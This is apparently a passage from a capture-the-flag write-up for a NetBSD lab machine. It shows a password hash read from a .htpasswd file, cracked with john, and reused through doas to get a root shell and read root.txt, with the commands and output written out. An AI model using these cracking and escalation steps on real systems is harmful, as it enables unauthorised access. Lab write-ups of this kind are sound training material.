```bash
luanne$ cat .htpasswd
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```

I decode the hash using john again.
`$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear`

Taking a guess I thought maybe it's the root password.
I tried to use `su` but it did not work.

```bash
luanne$ su root
su: You are not listed in the correct secondary group (wheel) to su root.
su: Sorry: Authentication error
```

On googling su alternatives for netbsd I found `doas`

```bash
luanne$ doas su root
Password:
sh: Cannot determine current working directory
# cd /root
# ls
.cshrc     .klogin    .login     .profile   .shrc      cleanup.sh root.txt
# cat root.txt
```


